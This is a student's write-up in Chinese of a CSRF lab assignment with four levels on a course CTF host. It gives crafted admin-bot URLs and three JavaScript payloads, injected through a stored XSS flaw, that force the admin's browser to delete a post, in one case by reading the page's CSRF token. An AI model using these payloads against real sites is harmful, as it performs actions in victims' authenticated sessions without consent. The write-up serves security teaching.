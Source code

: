 ### Web Security Assignment 2 - CSRF	Write up



#### Level 1.  

我们首先尝试一下直接删除这个帖子，利用调试工具截取网络数据包，发现这个参数传递主要借助 GET 传参方式，因此我们可以构造一个请求，利用 admin 本地的 cookie 对帖子进行操作。

![](./imgs/1.png)

具体的 url 可以如下构造：

```
http://www.ctf-ruc.site:33181/admin.php?url=http%3A%2F%2Fwww.ctf-ruc.site%3A33181%2Fapi.php%3Fid%3D1%26action%3Ddelete
```

实现了如下效果：

![](./imgs/2.png)

#### Level 2.

![](./imgs/3.png)

观察源代码，发现这一题中的传参方式改成了 POST，对于 POST 方法，想要单纯利用 URL 直接完成诱骗是比较困难的，然而本题目中却存在一个致命的 XSS 漏洞，而这个漏洞正是发布新帖子这个功能中产生的，具体的漏洞位置如下，在加载从后端收到的数据并渲染到前端时直接采用了  innerHTML 嵌入的方式，这给了我们注入代码的空间。

![](./imgs/4.png)

由于要注入的代码比较长，我们可以通过外挂一个站外 js 脚本：

```javascript
/* csrf2.js */
fetch(`api.php`, {
  method: "POST",
  headers: {
    "Content-Type": "application/x-www-form-urlencoded",
  },
  body: `id=1&action=delete`,
});
```

然后发布一个如下的帖子：

![](./imgs/6.png)

然后输入如下的 url 进行 csrf 诱骗：

```
http://www.ctf-ruc.site:33184/index.php?url=http%3A%2F%2Fwww.ctf-ruc.site%3A33184%2Findex.php
```

此时前端会被注入我们的站外脚本并随着页面加载自动执行，诱骗 admin 运行这段脚本会自动向后端发送一个 POST 请求，并且会以 admin 的身份认证进行，由此实现删除帖子效果。



#### Level 3.

本题与上一题唯一的不同就是使用了 token，但是 XSS 漏洞并没有被修复。更致命的是，这个 token 还被显式放在了前端，如下：

![](./imgs/10.png)

我们还是使用一个站外脚本，通过 getElementById 方法可以精确的选中这个元素，并且在请求体中使用这个元素的 value 属性即可：

```javascript
/* csrf3.js */
const token = document.getElementById("csrf_token");
fetch(`api.php`, {
  method: "POST",
  headers: {
    "Content-Type": "application/x-www-form-urlencoded",
  },
  body: `id=1&action=delete&csrf_token=${token.value}`,
});
```

然后发布一个新帖子：

![](./imgs/9.png)

然后使用如下的 url 的模拟 csrf 诱骗：

```
http://www.ctf-ruc.site:33191/index.php?url=http%3A%2F%2Fwww.ctf-ruc.site%3A33191%2Findex.php
```

admin 在打开主页时注入的脚本会从前端代码中提取出 token，并且将 token 填入请求自动发出，实现删除帖子的目的。



#### Level 4.

本题中删除了 token 防御方式，改为使用了一个两阶段的验证，但是 XSS 漏洞依然未修复。

![](./imgs/12.png)

经过实验发现，如果越过第一阶段的验证采用和 Level 2 类似的方法直接发送请求后端会拒绝这个请求，因此我们还得通过一个脚本模拟两个阶段的请求。我们使用这样一个站外脚本：

```javascript
/* csrf4.js */
fetch(`api.php?action=confirm`, {
  method: "GET",
}).then((response) => {
  fetch(`api.php`, {
    method: "POST",
    headers: {
      "Content-Type": "application/x-www-form-urlencoded",
    },
    body: `id=1&action=delete`,
  });
});
```

然后同样发布一个帖子：

![](./imgs/9.png)

然后我们使用一个同样的 url 模拟 csrf 诱骗即可：

```
http://www.ctf-ruc.site:33194/index.php?url=http%3A%2F%2Fwww.ctf-ruc.site%3A33194%2Findex.php
```

当 admin 打开链接时，会自动由站外脚本发起一个两阶段的请求，第一个完成确认，第二个完成请求的伪造，如此即可完成删除帖子的任务。



---

**Reference：**

为了保证靶机可以访问脚本，所有站外脚本以及本报告均已上传 github 仓库，链接：https://github.com/YichenShen0103/csrf-test，站外脚本通过 github page 引入，链接：https://yichenshen0103.github.io/csrf-test。